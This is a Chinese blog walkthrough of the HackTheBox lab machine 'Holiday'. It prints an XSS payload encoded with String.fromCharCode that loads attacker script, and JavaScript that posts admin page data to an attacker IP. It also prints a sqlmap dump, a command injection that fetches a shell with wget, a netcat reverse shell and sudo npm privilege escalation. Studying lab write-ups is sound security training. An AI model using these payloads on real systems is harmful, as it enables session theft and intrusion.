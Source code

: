 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/l8EfPepN1oQq-0jz7uAW0w)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **104** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/QkjvmbC1CD0zJ9hBlrElSv4ZqETGn3otgH8VHW1QuoOec3JMAbUyr0iaurJy4DPHBwUsDXiadJ3aha4CvJwyYVew/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/22

靶机难度：初级（5.0/10）

靶机发布日期：2017 年 10 月 21 日

靶机描述：

Holiday is definitely one of the more challenging machines on HackTheBox. It touches on many different subjects and demonstrates the severity of stored XSS, which is leveraged to steal the session of an interactive user. The machine is very unique and provides an excellent learning experience.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/XrBsia6eKtTFtr4vwm8FVt5frF8ojc6Xtp0ChSOwic1tRYkxthCoB1v1SekZZzcuvLGhDnRCDt8IVxpHV9flfc9A/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/sz_mmbiz_png/PXWEicxy2xC9I5LF9rFMqYCphbH3cCW3vuSv6ic9WhOhzpoJibNkQLKy2DAWiazzOcIg1RLfgZiauLaLG8ucgHOJGdw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJfPxc3grR2l7khA5iaXdh8PTibUNjNZXzibaHkyKordoVAFeQcDzEPrsnw/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.25....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJfrvUhpu1SolrPgoAzz1balbMoibMy4ck4xmoplf9ibcas6fVnia0hv1zg/640?wx_fmt=png)

Nmap 发现开放了 OpenSSH 和 Node.js 服务..... 访问看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJhhnoiaC6VdbVOcrCSYQgc6BhSEMzkFWfNXK2FyOdRpM6S6U6Ps6dVrw/640?wx_fmt=png)

前端没发现什么有用的信息... 爆破

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJ9rDe8oicMGZKg08ho48v6gicIpqs45qvuNJIRW1mk030Hq7CQELe056A/640?wx_fmt=png)

发现了很多目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJVERZUnghSp7VNSOasEvLD8DOvOHFHicA1xcaanLlibAP4guQJ6k4YYPA/640?wx_fmt=png)

访问发现 login 存在用户登录页面... 利用 BP 拦截准备 sqlmap 注入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJBMm7rNjKnDyfAl32Sia75f91ia8CVqbyTGMbyicWy9SibKoYZY7icWwIKiaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJqWTAYu2Qc39C613roYxOqC6mPREs03TEmgHEpZBeSOCvNibAicNlGJJg/640?wx_fmt=png)

```
sqlmap -r dayusql --level 5 --risk 3 -T users --dump --threads 10
```

通过最简单最暴力的 sqlmap 爆破，发现了用户名和 hash 密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJap3qad71Hl681hyCA983Xr8bVwqqiaDu11j17ibm9y7iaqhbqpIyMm4fg/640?wx_fmt=png)

通过页面解析获得了密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJacEicz1RStdibwIia93hlDmWUvDD1C9ickae2s8Tx8FBNcK2icdM8TB7Viag/640?wx_fmt=png)

登陆后重定向到了一个页面，该页面看起来包含有用的信息... 点击 UUID 看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJibIbAX7hicgffYmzsqiamicu0sTcqNeTd6YCKMJBb59ZFHric8ep8Zewflw/640?wx_fmt=png)

进入表单 UUID 后，最下面提示了该注释必须批准所有注释，并且可能需要一分钟的时间，意味着某种用户交互，可能每分钟一次...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJtY8ziaErEcOpLf1Hw8VzF6m9FoaaUIXPR9zUcJKXSmUDhqIfekPl7TQ/640?wx_fmt=png)

通过 N 种测试结果....

利用 note 函数，发现它是易受攻击的 xss 的，由于管理员正在阅读注释，因此 XSS 可用于获取管理 cookie 值... 要运行 xss 并运行有效负载，需要使用 JavaScript 函数 String.fromCharCode 绕过过滤器以运行有效负载... 开始...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJraZxSYiaNpX0n3pKJ2pyIm6Fm3oIKUblQpvr56Kdz3gUqVkncNficqMA/640?wx_fmt=png)

```
payload = '''document.write('<script src="http://10.10.14.51/dayu.js"></script>');'''
','.join([str(ord(c)) for c in payload])
```

这里需要使用 JavaScript 函数 String.fromCharCode 绕过过滤器以运行有效负载，需要将字符串转换为 ASCII 代码..

这里利用了 python 转换...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJPgUibVx1zZe48Rqmd8uN1ukLN1tB4ibhAvydpLMfhKou9R7RMAsV6xYg/640?wx_fmt=png)

```
<img src="x/><script>eval(String.fromCharCode(<payload>));</script>">
```

成功转换后利用 google 搜索到针对 JavaScript 的 XSS 的有效负载过滤器....

将转换的 ASCII 放入即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJyqHJjQhsooazVVVfmB9MFEHLpRjL05OGEuavUzia5xG9QauOM0Jic3tA/640?wx_fmt=png)

```
var url="http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65";
$.ajax({ method: "GET",url: url,success: function(data)
{ $.post("http://10.10.14.51:8000/", data);}});
```

首先通过最前面的测试，利用 cookie 简单编写了 cookie 的脚本... 主要获取 admin 或者 system 等高权限用户的 cookie...

然后通过 JavaScript 的 XSS 的有效负载过滤器成功获得了高权限的 cookie....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJ3XpO2ad78qhwjeEMicQWr3oJuyPpM3FI2kbnmcWIQ0lttMZZw8Kussg/640?wx_fmt=png)

直接替换 cookie 即可... 这里可以利用 F12 调试或者 BP 拦截写入都可以...

替换刷新页面，出现了 admin 值... 这是 admin 的 cookie...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJkmCopkckL32Alu0yqnfJgNibPLbuyOmprJRJDYfoXpqm5pT6yctvMWg/640?wx_fmt=png)

将 url 替换成 admin 后，成功的登陆到了 admin 管理页面... 继续分析...

在下载 notes 后，分析存在注入，可利用 notes 读取到该用户底层的信息以及还具有写入功能...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJlT9ag8PyA0Wy5sYJNUXDgbqj7V4MIqygYt0Ftxw5v6Qc8bldn8HCdw/640?wx_fmt=png)

通过 BP 测试，果然是可注入的... 读取到了

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJwTOaCyn0kqKo2W0lE4ibsMLgNMcGibehBXfWm9LLqicAibZFZ7ONLLJsGQ/640?wx_fmt=png)

这里测试了正常 IP 情况下，命令注入不生效... 且报错... 通过各种测试...

这里需要将 IP 为十进制！！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJ1EyEJoD6zdOzlZF8mtACy57xjhJZwJU6OSI0xhhmjZBoicD6tjUwrcA/640?wx_fmt=png)

将 IP 转换为十进制...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJsSibAbWTe4qgcfzD74ctcOA4cDUMfqWvW2jmGaqIaGk7szqYzicZWInA/640?wx_fmt=png)

```
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 5555 >/tmp/f
table=notes/%26wget+0x0a0a0e33/shell
```

通过简单的 shell 编写即可...  

然后利用转换的 IP，通过 wget 上传 shell... 可看到成功上传！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJuoLDehKo7QQsoEybNhP7CIvme8m41vkFFPeiazsRo8bsedgicZzFBdXQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJDfvMwssibwSIib5ib1ibOx4yYeO8LD42fssoLNgIWG7ibTZzSfOlKAHA8kA/640?wx_fmt=png)

继续利用 bash 执行 shell，成功获得了反向 shell... 获得了 user.txt 的 flag...

并 sudo 发现该用户利用 npm 无需密码即可以 root 用户身份运行...

![](https://mmbiz.qpic.cn/mmbiz_png/1prMbIpCa3humOrLAChJmsjMl4Kxia7vzrQE59ny2bGibWz5Cr8YzNvia9NXzt8O2jiclnVwHYxubpFU1Q6dX9FRCQ/640?wx_fmt=png)

方法 1：

![](https://mmbiz.qpic.cn/mmbiz_png/5PYA1G5YGGkjAN1M3sw2tjaT2EzjYhfiax6biaK6IUQxeAFY5cgZQtGqXrMp1oRbNic8EDqpxsg5BjArxBhibLM5XQ/640?wx_fmt=png)

直接利用 npm 获取 root.txt 的 flag....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJwP7F2PyAmdROROKJvJnvVtRmjeKL5NmLSYxmJHdecrIsrNuyuF9Nxw/640?wx_fmt=png)

```
mv package.json pack
ln -s /root/root.txt package.json
sudo /usr/bin/npm i *
```

直接利用 sudo 的提示，简单的执行写入即可读取到 root.txt 的 flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/1prMbIpCa3humOrLAChJmsjMl4Kxia7vzrQE59ny2bGibWz5Cr8YzNvia9NXzt8O2jiclnVwHYxubpFU1Q6dX9FRCQ/640?wx_fmt=png)

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_png/5PYA1G5YGGkjAN1M3sw2tjaT2EzjYhfiax6biaK6IUQxeAFY5cgZQtGqXrMp1oRbNic8EDqpxsg5BjArxBhibLM5XQ/640?wx_fmt=png)

google 搜索 npm 发现了提权 root 的 github...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJKSGiamsiaXMwCb2ZNn7gp0fUN6lkY3RHsJhDpBngzZxQ1LwZwzRtxhdw/640?wx_fmt=png)

```
https://github.com/joaojeronimo/rimrafall
```

找到了一种使用称为 rimrafall 的包来获得反向外壳的方法....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJujtIrrMf6NqYiaicgBtkOCFjr1QeILs3VhsXRwfdCmFOmszUo60j1AEg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPKlKkfSA1N9Lw933Fvd7KJsw1MeawwOHwRdn0DxibIXkKCYVeQdnKlP62M8nibZ4epuENgDLtFIpsA/640?wx_fmt=png)

按照作者的解释，理解原理~~~

![](https://mmbiz.qpic.cn/mmbiz_png/QkjvmbC1CD0zJ9hBlrElSv4ZqETGn3otgH8VHW1QuoOec3JMAbUyr0iaurJy4DPHBwUsDXiadJ3aha4CvJwyYVew/640?wx_fmt=png)

只需要修改目录信息... 利用 bash 直接提权目录文件为 root 权限... 成功获得了 root 权限获得了 root.txt 的 flag 信息...

这篇文件较难，主要为 XSS 那块~~

学到了很多... 中途测试了太多次... 注入注入在注入...

加油！！！

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)